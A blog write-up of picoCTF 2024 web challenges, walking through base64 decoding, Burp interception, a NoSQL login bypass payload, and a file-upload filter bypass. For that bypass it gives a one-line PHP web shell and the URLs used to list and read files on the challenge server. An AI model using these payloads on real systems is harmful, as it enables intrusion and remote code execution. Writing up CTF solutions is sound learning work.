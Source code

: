 ```yaml
---
author: krill
published: true
tags:
  - ctf
  - web
title: PicoCTF_2024 Web Writeup
article_header:
  type: cover
---
```

I made a compilation of all the web challenges I solved during the just concluded picoCTF.
<!--more-->
Most of the challenges were easy and straight forward except the last challenge which I wouldn't be documenting here. 

## Bookmarklet
![](/images/CTF/pico2024/web/chall1.png)

Visiting the challenge instance, you get the following . .
![](/images/CTF/pico2024/web/book1.png)
you can solve the challenge by simply copying the javascript code in the form and pasting it in the browser console.

The code basically decrypts the encrypted data stored in the `encryptedflag` variable using the key `picoctf` and alerts the result which should contain the decrypted flag on the screen.

![](/images/CTF/pico2024/web/js.png)

## WebDecode
![](/images/CTF/pico2024/web/chall2.png)

We get this page when we visit the challenge instance.
![](/images/CTF/pico2024/web/decode.png)

 Clicking on the about page
 ![](/images/CTF/pico2024/web/about.png)

Inspecting the page (`ctrl` + `u`), shows the flag encoded in base64

![](/images/CTF/pico2024/web/base64.png)
you can easily decode that using https://cyberchef.io/ or using the base64 tool on your linux terminal

```
➜ echo -n 'cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9' | base64 -d
```


## IntroToBurp
![](/images/CTF/pico2024/web/chall3.png)

You get a registration form when you launch the challenge instance. 

Go ahead and create an account
![](/images/CTF/pico2024/web/register.png)

You get redirected to a dashboard where you are required to provide some form of `OTP` for `2fa` authentication. 

intercept the request with `burpsuite` and mangle the `otp` parameter - this should give you the flag. 
![](/images/CTF/pico2024/web/mangle.png)

## Unminify
![](/images/CTF/pico2024/web/chall4.png)

You can easily view the page source (`ctrl` + `u`) and search for the string `picoCTF{`, you should get the flag : )

## No Sql Injection
![](/images/CTF/pico2024/web/chall5.png)

Launching the instance, you are given a login page - from the name of the challenge, we can tell that we need to perform some form of `no-sql` injection. 

Using the payload below, I was able to bypass the user login

```
{"$ne":""}
```

Intercepting the request with `burpsuite` and sending to `repeater`, we get a response from the server containing a user detail which also includes the token which is the flag encoded in base64. 

![](/images/CTF/pico2024/web/nosql.png)

```
➜ echo -n "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2EyZTBkOWVmfQ==" | base64 -d 
```


## Trickster
![](/images/CTF/pico2024/web/chall6.png)

We are given a page that allows us to upload files to the server 
![](/images/CTF/pico2024/web/upload.png)

Using `wapalyzer` we can check what the website was built with in order to know what language the payload should be in. 

![](/images/CTF/pico2024/web/wap.png)

we should be able to upload a php payload in order to get remote-code-execution on the server.

uploading the php file, I got the following error : ( 

![](/images/CTF/pico2024/web/error.png)

seems the filter put in place checks that the file contains `.png`, so I went ahead to create another file `file.png.php` with the following payload.

```php
PNG;

<?php system($_GET['cmd']); ?> 
```

This was successful and we should be able to access the payload by visiting `/uploads/file.png.php`

![](/images/CTF/pico2024/web/image.png)

the flag was stored in a `.txt` file in the web root directory.
```
atlas.picoctf.net:59649/uploads/file.png.php?cmd=ls -la ../
```

you can just read that : )

```
atlas.picoctf.net:59649/uploads/file.png.php?cmd=cat ../G4ZTCOJYMJSDS.txt
```

Arigato :)



